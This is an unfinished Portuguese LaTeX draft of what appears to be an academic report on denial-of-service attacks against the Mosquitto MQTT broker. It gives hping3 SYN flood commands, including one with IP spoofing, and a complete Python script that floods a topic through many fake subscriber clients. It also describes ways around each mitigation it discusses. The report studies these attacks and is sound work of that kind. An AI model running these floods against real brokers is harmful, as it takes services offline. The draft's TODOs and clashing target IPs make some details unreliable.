
\section{SYN Flood}

O ataque de \emph{SYN flood} já é bem conhecido e explora uma vulnerabilidade tradicional no processo de \emph{handshaking} do protocolo TCP, com vistas a impedir que o alvo faça conexões legítimas e causando, assim, negação de serviço \cite{Yuan2008}.


\subsection{TCP three-way handshake}
O \emph{three-way handshake} do protocolo TCP é um processo que ocorre durante a fase de conexão entre duas máquinas, garantindo que ambas estão cientes da conexão e prontas para trocar mensagens. (TODO: REF)

Nesse processo, ilustrado pela \autoref{three-way-handshake}, há a troca de três mensagens entre cliente e servidor -- chamaremos de cliente a máquina que inicia a conexão e servidor a que aceita novas conexões:

\begin{enumerate}
  \item \textbf{SYN}: Um pacote de sincronização é enviado do cliente para o servidor, sinalizando sua intenção de se conectar.
  \item \textbf{SYN/ACK}: O servidor responde, reconhecendo a conexão.
  \item \textbf{ACK}: O cliente avisa o servidor de que recebeu o pacote SYN/ACK e a conexção é estabelecida.
\end{enumerate}




\begin{figure}[htb]
 \caption{Three-way handshake}
 \label{three-way-handshake}
 \centering
 
\includegraphics[scale=0.6]{images/three-way-handshake.png}
 \fautor
\end{figure}




\subsection{Vulnerabilidade}

O SYN flood consiste em mandar uma série de pacotes SYN para um servidor e, ao receber os respectivos pacotes SYN/ACK, simplesmente ignorá-los. Dessa maneira, o servidor fica esperando pela resposta ACK que nunca chegará. Eventualmente o tempo limite de espera do servidor para cada conexão expira mas, logo em seguida, o atacante inicia novas conexões, o que acaba por manter o servidor incapaz de receber conexões legítimas -- caracterizando a negação de serviço do servidor. (TODO: REFERÊNCIAS)


\subsection{Ataque ao Mosquitto Broker}
O SYN flood é um ataque que explora uma vulnerabilidade do protocolo TCP, não no MQTT. No entanto, como o protocolo MQTT depende do TCP para realizar conexões e trocar mensagens, toda e qualquer vulnerabilidade encontrada no protocolo TCP pode também ser utilizada para atacar sistemas baseados em MQTT.

O ambiente utilizado para realizar o ataque foi:
\begin{enumerate}
    \item Mosquitto MQTT Broker (TODO: LINK/REFERÊNCIA) em uma máquina Linux
    
    \item Máquina atacante, também Linux, na mesma rede local, \sigla{LAN}{\textit{Local Area Network}} que o broker
    
    \item hping3 (TODO: LINK/REFERÊNCIA): ferramenta desenvolvida pela Offensive Security (TODO: LINK) para a criação, envio e análise de pacotes
\end{enumerate}

O hping3 foi escolhido em detrimento de outras implementações diretas do SYN flood uma vez que se trada de uma ferramenta frequentemente usada nos meios acadêmico e profissional, sendo inclusive de fácil uso e grande versatilidade. 




\begin{lstlisting}[language=bash, caption=SYN Flood]
# hping3 -c 15000 -d 120 -S -p 1883 --flood 192.168.1.159
\end{lstlisting}


Os parâmetros especificados são:

\begin{enumerate}
    \item \textbf{-c}: Número de pacotes a serem enviados.
    \item \textbf{-d}: Tamanho, em bytes, de cada pacote.
    \item \textbf{-S}: Especifica que os pacotes contém a flag SYN, ou seja, que são pacotes SYN.
    \item \textbf{-p}: Porta a receber o ataque. O servidor não conseguirá receber outras conexões nessa porta. A porta 1883 é a padrão para o protocolo MQTT.
    \item \textbf{--flood}: Especifica que trata-se de um ataque de \emph{flooding}, hping3 enviará os pacotes o mais rápido possível. (TODO: VERIFICAR ISSO)
    \item \textbf{192.168.0.2}: Endereço IP do servidor. (máquina alvo)
\end{enumerate}






\subsection{SYN flood e IP spoofing}

O SYN flood é um ataque facilmente mitigável. Uma proposta amplamente aceita e de fácil implementação é a limitação do número de conexões permitidas para um mesmo endereço IP. Assim, após determinado número de conexões abertas com um cliente em um determinado endereço IP, todas as outras tentativas de conexão advindas desse mesmo endereço seriam automaticamente rejeitadas pelo servidor.

Como essa solução se baseia principalmente no conhecimento do endereço IP do cliente pelo servidor, é possível atrelar ao ataque uma técnica de mascaramento de IP, ou \emph{IP spoofing}, de forma que o servidor seja incapaz de diferenciar conexões maliciosas de conexões legítimas, tornando essa solução ineficaz.



Simulamos também um ataque SYN flood com IP spoofing:

\begin{lstlisting}[language=bash, caption={SYN Flood com IP spoofing}, label={lst:hping}]
# hping3 -c 15000 -d 120 -S -p 1883 --flood --rand-source 192.168.1.159
\end{lstlisting}

A opção \textbf{--rand-source} permite aleatorizar o IP de origem especificado nos pacotes enviados pelo cliente.
(TODO: CÓDIGO?, O QUE MAIS?)












\section{Sybil subscription flood}

Como o protocolo MQTT opera de acordo com o modelo publish/subscribe é também possível realizar ataques que exploram vulnerabilidades atreladas não a características específicas desse protocolo, mas do modelo publish/subscribe especificamente.




\subsection{Ataque Sybil}

O ataque Sybil consiste fundamentalmente em simular uma grande quantidade de identidades falsas, fazendo com que um cliente sybil, ou nó sybil, no contexto de redes ponto a ponto, se passe por vários clientes. Isso pode ser atingido usando uma série de diferentes técnicas como por exemplo a criação de identidades falsas ou o roubo de identidades verdadeiras fazendo com que a autoridade -- frequentemente um servidor, ou, no caso da topologia no protocolo MQTT, o broker -- acredite que as identidades roubadas pelo nó sybil são os clientes legítimos \cite{Douceur2002}.

Esse tipo de ataque se mostra muito efetivo no contexto de redes MQTT, uma vez que na grande maioria das implementações o broker responsável não limita o número de clientes que podem operar sob um mesmo endereço IP.








\subsection{Vulnerabilidade}

A grande maioria dos brokers MQTT, dentre eles o Mosquitto Broker, permite por padrão um número ilimitado de inscrições em qualquer tópico mas, apesar disso, os brokers geralmente não possuem os aparatos necessários para lidar com um tráfego muito grande -- problemas frequentes são falta de banda e baixo poder de processamento.

Sendo assim, é possível realizar um ataque que explora essa inconsistência entre o número de inscrições permitidas e o número de conexões com que o broker consegue de fato lidar. Para isso, faz-se uma série de inscrições em qualquer tópico de um broker e, em seguida, realiza-se uma série de publicações nesse mesmo tópico. Como o tópico usado no ataque possui muitas inscrições, uma publicação demorará muito até que ela seja completada, ou seja, até que o broker seja capaz de enviar a mensagem para todos os clientes inscritos.

Teoricamente, esse ataque explora tanto a capacidade da rede na qual o broker está conectado quanto sua capacidade de processar requisições e enviar respostas. Contudo, na prática, apenas o primeiro fator acaba por ser relevante (TODO: DADOS?) e, portanto, trata-se em efeito de um ataque que explora a largura de banda do broker.






\subsection{Ataque ao Mosquitto Broker}

Para explorar a vulnerabilidade foi desenvolvido um programa na linguagem Python que utiliza a biblioteca Paho do projeto Mosquitto para criar e instanciar clientes, abrir conexões e realizar inscrições e publicações.

\begin{lstlisting}[language=Python, caption=Ataque Sybil]
    import paho.mqtt.client as mqtt
    import random, string, sys
    
    
    def gen_cli_id(size):
        return ''.join([random.choice(string.ascii_letters +  \                     string.digits) for n in range(size)])
    
    
    if __name__ == '__main__':
        if len(sys.argv) != 5:
            print('usage: python3 bad_sub.py HOST \
                  PORT TOPIC SYBIL_NODES')
            exit(0)
    
        host = sys.argv[1]
        port = int(sys.argv[2])
        topic = sys.argv[3]
        sybil_nodes = int(sys.argv[4])
        clients = []
    
        print('Subscribing sybil nodes...')
        for i in range(sybil_nodes):
            clients.append(mqtt.Client(gen_cli_id(10)))
            clients[i].connect(host, port)
            clients[i].subscribe(topic)
    
        print('Publishing messages, flooding broker...')
        i = 0
        while True:
            clients[i].publish(topic, 'flooding topic')
            i = (i + 1) % sybil_nodes

\end{lstlisting}

Nesse código, primeiro cria-se uma lista de vários clientes, cada qual com um ID aleatório gerado automaticamente. Em seguida, inscreve-se todos os clientes no tópico especificado e, finalmente, são enviadas várias publicações nesse mesmo tópico.

O programa gera uma utilidade de linha de comando (\emph{command line utility}) que permite escolher parâmetros como IP (HOST) e porta (PORT) da máquina onde o broker está rodando, bem como tópico a ser atacado (TOPIC) e número de clientes falsos a serem gerados (SYBIL\_NODES).

\begin{lstlisting}[language=Bash, caption={Utilização da ferramenta}, label={lst:sybil}]
    $ python3 bad_sub.py
    usage: python3 bad_sub.py HOST PORT TOPIC SYBIL_NODES
\end{lstlisting}








\subsection{Estratégias de mitigação e sofisticações do ataque}

Esse ataque, da maneira como foi implementado, é passível de algumas estratégias de mitigação relativamente simples. No entanto, como veremos, cada qual também possui vulnerabilidades que modificações igualmente simples do ataque são capazes de explorar.

\subsubsection{IP blocking}

A solução imediata, e talvez até ingênua, é bloquear qualquer requisição advinda do endereço IP da máquina maliciosa após a detecção do ataque, seja ela publicação ou inscrição.

Essa abordagem não compõe uma estratégia de mitigação \emph{a priori}, uma vez que é eficaz apenas depois da detecção do ataque. No entanto, como será visto na próxima seção, a ideia do bloqueio de endereços IP é útil para se conceber uma estratégia razoavelmente eficaz para evitar esse tipo de ataque.

Muito embora essa solução seja eficaz contra o ataque apresentado anteriormente, o \emph{IP blocking} pode ser facilmente superado utilizando a técnica de mascaramento de IP, ou \emph{IP spoofing}, em que o atacante altera o endereço de origem especificado nos pacotes IP por ele enviados, fazendo com que o broker seja incapaz de detectar o verdadeiro endereço IP do atacante e, assim, igualmente incapaz de bloqueá-lo.



\subsubsection{Limitação de inscrições por IP}

Como visto anteriormente, bloquear determinados endereços IP não é uma estratégia capaz de evitar ataques, mas apenas de interromper ataques previamente detectados. Portanto, uma variação da técnica de IP blocking que promove maior robustez \emph{a priori} é estabelecer um limite máximo no número de inscrições por endereço IP. Assim, uma máquina de um determinado endereço IP não seria capaz de inscrever vários clientes maliciosos no broker.

Mais uma vez, no entanto, alterações que incorporem técnicas de IP spoofing são extremamente efetivas contra essa estratégia de mitigação, uma vez que impossibilitam a detecção do verdadeiro endereço IP de origem dos clientes maliciosos.



\subsubsection{Limitar frequência de inscrições em um tópico}

Finalmente, é possível limitar a quantidade de inscrições em um determinado tópico por uma unidade de tempo, com vistas a tornar o ataque inviável devido ao tempo necessário para realizar as todas as inscrições necessárias para desabilitar o serviço. Por exemplo, permitir no máximo 40 inscrições por minuto em um mesmo tópico faria com que um ataque  de 8000 inscrições levasse cerca de três horas para completar a etapa de inscrições -- dando uma maior margem de tempo para que os administradores do sistema ajam.

Novamente, é possível alterar o código do ataque para torná-lo viável mesmo com essa estratégia. Agora, basta fazer com que os clientes gerados se inscrevam em múltiplos tópicos e, em seguida, realizar publicações em todos esses tópicos ao invés de apenas um, como anteriormente.




\section{Resultados}

\subsection{SYN flood}

Para realizar o ataque de SYN flood vamos executar o comando da listagem \ref{lst:hping}




\subsection{Sybil subscription flood}









